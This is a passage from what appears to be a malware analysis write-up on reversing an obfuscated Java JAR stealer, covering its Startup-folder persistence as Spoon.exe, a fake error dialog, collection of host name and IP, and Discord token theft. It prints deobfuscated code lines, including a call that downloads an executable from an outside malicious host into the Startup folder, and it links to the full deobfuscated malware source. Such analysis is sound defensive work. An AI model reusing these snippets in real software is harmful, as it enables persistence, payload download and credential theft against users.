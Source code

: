 ```java
❌ Failed to resolve current JAR path: 
```
These decrypted strings already tell us a lot about what the malware is trying to do. For example:
- It is accessing the APPDATA directory
- It places a file called Spoon.exe in the Startup folder to run automatically when the system starts
- It prints an error message when it fails to get the current JAR path, which is probably part of its self-installation logic

Even though the code was heavily obfuscated at first, decrypting these strings helped reveal its true behavior.

After reversing and deobfuscating the JAR malware, I ended up with a very long Java file, almost 1000 lines. The code handles everything from persistence, token stealing, file zipping, screenshot capture, to sending data to an attacker’s webhook.

Since pasting the full code here would make this post unnecessarily long and harder to read, I have uploaded the complete cleaned and readable version of the decompiled malware to GitHub.

👉  **[Complete_DeobfuscatedVersion_FileDownloader.txt](https://github.com/HareezIshraf5/Reverse-Malicious-.jar/blob/main/Complete_DeobfuscatedVersion_FileDownloader.txt)**

I also included the script I wrote to reverse all the encrypted strings used throughout the code. Feel free to check it out if you want to explore the technical details or try reversing something similar on your own.

👉  **[FileDownloader.class decryptor script](https://github.com/HareezIshraf5/Reverse-Malicious-.jar/blob/main/FileDownloaderDecryptor.java)**

In the next section of this write-up, I will go through the key functions and explain how each part of the malware works.
Even though I have uploaded the full source code to GitHub, I still want to highlight the interesting parts here and walk through what this malware is actually doing.

- 🗂️ **Persistence**<br>
One of the first things the malware does is copy itself to the Windows Startup folder as Spoon.exe. This ensures it runs automatically every time the system boots.
```java
String startupPath = System.getenv("APPDATA") + "\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\Spoon.exe";
```

It checks if it is already running from that location. If not, it downloads itself and saves it there using this function:
```java
downloadFile("https://ikovrsps.org/gamefiles/images.exe", startupPath);
```

- 💬 **Fake Error Message**<br>
To trick the user, it pops up a fake error message after running:
```java
JOptionPane.showMessageDialog(errorFrame, "A Java Exception has occurred.");
```
This makes it look like nothing really happened, while in the background it starts its actual tasks.<br>

- 🕵️ **System Information Collection**<br>
It collects the victim’s public IP and PC name:
```java
String hostName = InetAddress.getLocalHost().getHostName();
String publicIP = getPublicIP();
```
- 🪙 **Discord Token Stealer**<br>
It tries to grab any Discord tokens from the system by scanning known directories using the RSPS.getTokens() method (the RSPS class was part of the original obfuscated malware and I reversed it).
